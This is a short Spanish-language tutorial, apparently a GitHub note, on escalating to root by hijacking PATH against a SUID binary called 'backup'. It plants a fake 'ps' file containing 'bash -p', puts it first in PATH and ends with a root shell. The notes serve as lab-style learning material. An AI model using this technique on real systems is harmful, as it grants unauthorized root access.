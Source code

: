 # EXPLOTACION DE UN PATH HIJACKING A UN BINARIO SUID

* Cada comando tiene un ruta absoluta
```bash
  $ which whoami
```
* Creamos nuestra ruta como prioritaria para la ejecucion de nuestro comando
```bash
  bash-5.1$ touch whoami
  bash-5.1$ ls
  whoami
  bash-5.1$ chmod +x whoami
  bash-5.1$ vim whoami
  bash-5.1$ whoami
  pepito
  bash-5.1$ export PATH=.:$PATH
  bash-5.1$ whoami
      PID TTY          TIME CMD
    25863 pts/1    00:00:00 bash
    26145 pts/1    00:00:00 bash
    26147 pts/1    00:00:00 ps
  bash-5.1$
```

* Nos permites ver las propiedad de un binario ya compilado.
```bash
  bash-5.1$ strings backup
```

## Resumen
El hijacking consiste en manipular el path para usarlo a nuestro favor

```bash
  bash$ export PATH=/[ruta de nuestro archivo para manipular]:$PATH
  bash$ ./backup
  bash$ whoami
  root
  bash$
```

Lo que realizamos anteriormente fue una manipulacion del path accediendo a los permisos SUID del archivo backup ya que ese archivo utiliza el comando "ps" en la carpeta /tmp creamos un archivo con el nombre "ps" y la pusimos en el PATH para que buscara en /tmp y de ahi ejecute el comando.

```bash
  [archivo ps]
  bash -p
```
